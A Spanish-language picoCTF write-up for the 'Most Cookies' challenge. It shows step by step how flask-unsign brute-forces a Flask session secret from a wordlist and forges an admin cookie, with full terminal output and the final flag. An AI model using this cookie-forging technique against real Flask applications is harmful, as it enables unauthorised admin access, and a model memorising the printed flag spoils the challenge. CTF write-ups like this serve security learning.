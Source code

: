 # Most Cookies

## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/99a50920a248ec37c39b8e3ab0af8789/server.py) [http://mercury.picoctf.net:18835/](http://mercury.picoctf.net:18835/)

## Hints 1

* How secure is a flask cookie?

## Solución

Entramos al sitio web proporcionado, e ingresamos **snickerdoodle** al ver que no nos muestra la flag, trataremos de usar un **flask-unsign** para modificar el admin y hacer todo un proceso para que nos muestre nuestra flag.

* Primero debemos instalamos los siguientes comandos para poder utilizar en la terminal:
**sudo apt install pipx (si no funciona este comando se puede utilizar el siguiente:)
sudo apt install python3.8-venv
pipx ensurepath
pipx install flask-unsing**

**Nota importante: En algunos casos los comandos pueden variar, entonces es ver cuales comandos sirven en cada terminal.**

```
jazmin@DESKTOP-1CBQJ6D:~$ sudo apt install python3.8-venv
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
  python-pip-whl
The following NEW packages will be installed:
  python-pip-whl python3.8-venv
0 upgraded, 2 newly installed, 0 to remove and 0 not upgraded.
Need to get 1814 kB of archives.
After this operation, 2344 kB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://archive.ubuntu.com/ubuntu focal-updates/universe amd64 python-pip-whl all 20.0.2-5ubuntu1.11 [1808 kB]
Get:2 http://archive.ubuntu.com/ubuntu focal-updates/universe amd64 python3.8-venv amd64 3.8.10-0ubuntu1~20.04.18 [5448 B]
Fetched 1814 kB in 2s (855 kB/s)
Selecting previously unselected package python-pip-whl.
(Reading database ... 41614 files and directories currently installed.)
Preparing to unpack .../python-pip-whl_20.0.2-5ubuntu1.11_all.deb ...
Unpacking python-pip-whl (20.0.2-5ubuntu1.11) ...
Selecting previously unselected package python3.8-venv.
Preparing to unpack .../python3.8-venv_3.8.10-0ubuntu1~20.04.18_amd64.deb ...
Unpacking python3.8-venv (3.8.10-0ubuntu1~20.04.18) ...
Setting up python-pip-whl (20.0.2-5ubuntu1.11) ...
Setting up python3.8-venv (3.8.10-0ubuntu1~20.04.18) ...
jazmin@DESKTOP-1CBQJ6D:~$ python3 --version
Python 3.8.10
jazmin@DESKTOP-1CBQJ6D:~$ pipx ensurepath
Your PATH looks like it already is set up for pipx. Pass `--force` to modify the PATH.
jazmin@DESKTOP-1CBQJ6D:~$ pipx install flask-unsign
  installed package flask-unsign 1.2.1, Python 3.8.10
  These binaries are now globally available
    - flask-unsign
done! ✨ 🌟 ✨
jazmin@DESKTOP-1CBQJ6D:~$
```

Una vez instaladas las cosas podemos seguir para buscar la cookie secreta que esta encriptada, pero antes de eso abrimos nuestro archivo **server.py** y en la parte de **cookie_names** copiamos todos los nombres y los acomodamos en un archivo de texto en forma de lista al cual lo nombraremos **cookies.txt** después de esto volvemos a nuestra terminal e ingresamos el siguiente comando:
`flask-unsign -u --server "http://mercury.picoctf.net:18835" --wordlist cookies.txt`
el cual nos mostrara nuestra cookie secreta que en este caso fue **fortune**

Ingresamos el siguiente comando:
`flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune`

y nos muestra un nuevo valor de la cookie.

Entonces aplicamos un curl con el respectivo url y el nuevo valor en el session de la cookie y por ultimo aplicamos un grep para que muestre nuestra flag.
`curl -s http://mercury.picoctf.net:18835k/display -H "cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-81Qw.m6Ni2XO68zM-TizAIbMXtZSefKg" | grep -oE "picoCTF{.*?}"`

### Simulación de la Terminal
```
jazmin@DESKTOP-1CBQJ6D:~/FIS$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8q-w.8YKICmof6BD7UmkxDV4OAAwTIZc | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input
jazmin@DESKTOP-1CBQJ6D:~/FIS$ cat coockies.txt
cat: coockies.txt: No such file or directory
jazmin@DESKTOP-1CBQJ6D:~/FIS$ cat cookies.txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
jazmin@DESKTOP-1CBQJ6D:~/FIS$ flask-unsign -u --server "http://mercury.picoctf.net:18835" --wordlist cookies.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z-806Q.OELjUY1NHIVxg-BTdRr8XW8Mf0Y
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
jazmin@DESKTOP-1CBQJ6D:~/FIS$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-81Qw.m6Ni2XO68zM-TizAIbMXtZSefKg
jazmin@DESKTOP-1CBQJ6D:~/FIS$ curl -s http://mercury.picoctf.net:18835k/display -H "cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-81Qw.m6Ni2XO68zM-TizAIbMXtZSefKg" | grep -oE "picoCTF{.*?}"
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

```
### Respuesta: picoCTF{pwn_4ll_th3_cook1E5_743c20eb}
